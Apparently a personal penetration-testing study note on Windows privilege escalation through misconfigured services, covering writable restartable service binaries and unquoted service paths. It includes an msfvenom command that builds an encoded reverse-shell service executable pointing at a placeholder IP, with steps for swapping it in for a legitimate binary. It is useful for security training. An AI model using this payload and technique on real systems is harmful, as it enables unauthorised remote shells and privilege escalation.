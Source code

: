 ## Abusing Service Misconfigurations
- [[Windows services\|Windows services]]
### CanRestart and writable service
- IF an service is Canrestart True and writeable.
- The Path is
  `Path: C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe`
- We can replace the legitimate application with our malicious one
- restart the service, which will run our infected program!
```shell
msfvenom -p windows/shell_reverse_tcp LHOST=CONNECTION_IP LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
```
### 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">

<div class="markdown-embed-title">

### Unquoted Service Paths

</div>


- When we **can't** **write** into service **executables**.
- If a service is configured to point to an "unquoted" executable.
```shell-session
sc qc "vncserver"
```
Correct
![Pasted image 20240821200031.png|600](/img/user/attachments/Pasted%20image%2020240821200031.png)
Example Incorrect
![Pasted image 20240821200138.png|600](/img/user/attachments/Pasted%20image%2020240821200138.png)
- When the [[SCM\|SCM]] tries to execute the binary, a problem arises.
- Since there are **spaces** on the name of the "Disk Sorter Enterprise" folder, the command becomes ambiguous, and the SCM **doesn't know which** of the following you are trying to **execute**.
- Spaces are used as argument separators unless they are part of a quoted string

| Command                                              | Argument 1                 | Argument 2                 |
| ---------------------------------------------------- | -------------------------- | -------------------------- |
| C:\MyPrograms\Disk.exe                               | Sorter                     | Enterprise\bin\disksrs.exe |
| C:\MyPrograms\Disk Sorter.exe                        | Enterprise\bin\disksrs.exe |                            |
| C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe |                            |                            |
1. First, search for `C:\\MyPrograms\\Disk.exe`. If it exists, the service will run this executable.
2. If the latter doesn't exist, it will then search for `C:\\MyPrograms\\Disk Sorter.exe`. If it exists, the service will run this executable.
3. If the latter doesn't exist, it will then search for `C:\\MyPrograms\\Disk Sorter Enterprise\\bin\\disksrs.exe`. This option is expected to succeed and will typically be run in a default installation.

